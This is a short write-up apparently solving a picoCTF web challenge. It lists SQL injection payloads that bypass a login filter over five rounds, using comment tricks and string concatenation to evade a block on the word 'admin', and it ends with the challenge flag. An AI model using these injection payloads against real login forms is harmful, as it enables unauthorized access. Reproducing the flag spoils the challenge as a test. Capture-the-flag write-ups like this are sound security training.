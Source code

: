 # Solution

- `http://jupiter.challenges.picoctf.org:44979/filter.php`
## Round 1:

```
username:admin' -- -
pass:lol
```
## Round 2:

- `SELECT * FROM users WHERE username='admin' -- -' AND password='sdsda'`

```
username:admin' /*
pass:asd
```
## Round 3:

- `SELECT * FROM users WHERE username='admin' /*' AND password='asd'`

```
username:admin';
pass:asd
```
## Round 4:

- Since `admin` word is blocked
- `SELECT * FROM users WHERE username='admin';' AND password='sdsa'`

```
username:ad'||'min';
pass:asd
```

## Round 5:

- `SELECT * FROM users WHERE username='ad'||'min';' AND password='sadsa'`

```
username:ad'||'min';
pass:
```

- Congrats! You won! Check out filter.php


- `picoCTF{y0u_m4d3_1t_16f769e719ab9d3e310fd13dc1262ee1}`

---
